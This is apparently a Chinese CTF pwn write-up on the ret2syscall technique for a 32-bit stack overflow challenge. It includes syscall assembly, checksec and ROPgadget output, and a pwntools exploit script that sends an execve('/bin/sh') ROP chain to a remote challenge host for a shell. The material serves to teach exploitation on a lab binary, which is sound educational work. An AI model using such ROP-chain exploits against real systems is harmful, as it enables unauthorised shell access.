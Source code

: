 ```yaml
---
title: 基础栈溢出ret2syscall
layout: doc

---
```

# {{$frontmatter.title}}
[[toc]]

## 系统调用

### write
```asm
    mov eax, 0x4
    mov ebx, 1
    mov ecx, [ "Hello, World!\n" ]
    mov edx, 13
    int 0x80
    => write(1, "Hello, World!\n", 13)
```
### execve
```asm
    mov eax, 0xb
    mov ebx, [ "/bin/sh" ]
    mov ecx, 0
    mov edx, 0
    int 0x80
    => execve("/bin/sh", 0, 0)
```
## 原理图 
> 很重要

![alt text](/images/image-18.png)

## 例题
> PolarCTFD&N 03ret2syscall_32

### 分析
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ file 03ret2syscall_32
03ret2syscall_32: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=7aa0a75d7429c4ba7ba95be1bcae6dd669105fad, not stripped

┌──(kali㉿kali)-[~/win/Downloads]
└─$ checksec --file=03ret2syscall_32
[*] '/home/kali/win/Downloads/03ret2syscall_32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

开了部分随机化，堆栈可执行

### ida

![alt text](/images/image-19.png)

没有system 但存在 /bin/sh

可以使用 
- ret2shellcode
- ret2libc
- ret2syscall

为达学习目的，本次例题将全部展示

### ret2syscall

通过构造execve的ROP链，实现攻击

ROPgadget
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ ROPgadget --binary 03ret2syscall_32 --only "pop|ret|int"
0x0806cea3 : int 0x80
0x080b8576 : pop eax ; ret
0x0806f250 : pop edx ; pop ecx ; pop ebx ; ret
# 虽然存在很多短小的 pop x; ret
# 但我们选择连续pop的 更加简洁

┌──(kali㉿kali)-[~/win/Downloads]
└─$ ROPgadget --binary 03ret2syscall_32 --string "/bin/sh"
Strings information
============================================================
0x080ea068 : /bin/sh

```
**一定要注意 是 32 还是 64 位**
exp.py
```py
from pwn import *
context(arch="i386", os="linux")
# io = process("./03ret2syscall_32")
io = remote("120.46.59.242", 2127)
padding = 0x208 + 4

print(io.recvline())
print(io.recvline())

sh_addr = 0x080ea068
int_addr = 0x0806cea3
pop_eax_ret = 0x080b8576
pop_edx_ecx_ebx_ret = 0x0806f250

# 很漂亮的传参 ROP链 使用flat函数就不用担心位数了
payload = b'a'*padding + p32(pop_eax_ret) + p32(0xb) + p32(pop_edx_ecx_ebx_ret) + p32(0) + p32(0) + p32(sh_addr) + p32(int_addr)
# payload = flat(['a'*padding,pop_eax_ret , 0xb , pop_edx_ecx_ebx_ret, 0 , 0 , sh_addr , int_addr])

io.sendline(payload)
io.interactive()
```
### ret2shellcode （当堆栈可执行，或者BSS段可写）
**需要能拿到缓冲区的地址**
现在我的技术，拿不到，行不通，有想法的联系我
观察到gets里有参数，试试不覆盖参数，只覆盖地址？
```py

```
### ret2libc
这是静态链接库，无法连接到libc只能 ret2syscall了
